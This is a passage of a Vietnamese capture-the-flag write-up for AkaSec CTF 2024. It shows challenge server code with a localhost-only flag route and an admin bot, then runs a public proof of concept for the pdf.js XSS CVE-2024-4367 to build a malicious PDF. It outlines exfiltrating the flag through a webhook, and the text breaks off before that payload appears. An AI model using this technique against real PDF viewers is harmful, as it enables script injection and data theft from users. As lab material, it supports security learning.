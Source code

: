 ```
app.use('/pdf.worker.js', express.static(path.join(__dirname, 'node_modules/pdfjs-dist/build/pdf.worker.js')));

app.get('/view/:filename', async (req, res) => {
    let filename = req.params.filename;
    res.render('view', { filename: filename });
});

app.get("/report", (_, res) => {
    const { name } = bot
    res.render("bot", { name });
});

app.post("/report", limit, async (req, res) => {
    const { url } = req.body;
    if (!url) {
        return res.status(400).send({ error: "Url is missing." });
    }
    if (!RegExp(bot.urlRegex).test(url)) {
        return res.status(422).send({ error: "URL din't match this regex format " + bot.urlRegex })
    }
    if (await bot.bot(url)) {
        return res.send({ success: "Admin successfully visited the URL." });
    } else {
        return res.status(500).send({ error: "Admin failed to visit the URL." });
    }
});

app.get('/flag', (req, res) => {
  let ip = req.connection.remoteAddress;
  if (ip === '127.0.0.1') {
    res.json({ flag: 'AKASEC{FAKE_FLAG}' });
  } else {
    res.status(403).json({ error: 'Access denied' });
  }
});

app.listen(5000, '0.0.0.0', () => console.log('Server started on port 5000'));

```
+ nhìn qua thì cũng là dạng lưu content mã độc  từ phía server sau khi upload và gửi từ bot admin tại local của file đó vì "ip == '127.0.0.' là sẽ phải gửi đến địa chỉ local qua 1 report là bot admin 

 => sau khi search thì đây là lỗ hổng pdf injection trên xss  'CVE-2024-4367' 

- ta sẽ test trến script có sẵn từ nguồn github https://github.com/LOURC0D3/CVE-2024-4367-PoC.git

``` python3 CVE-2024-4367 'alert(1)'```

=> generate ra file pdf file chứa xss 

![338759508-9a9f9bcc-9345-4add-8f47-3b12ed9971c3](https://github.com/neo-M3tinez/akasec-ctf2024/assets/174318737/315e9d76-d6e7-4c93-b383-7d08d76a610b)


=> nó trả về thông tin alert từ hệ thống 

=> ta cần generate ra 1 payload có thể nhận được respond từ địa chỉ đích và hook content của nó qua webhook 

=> payload

```
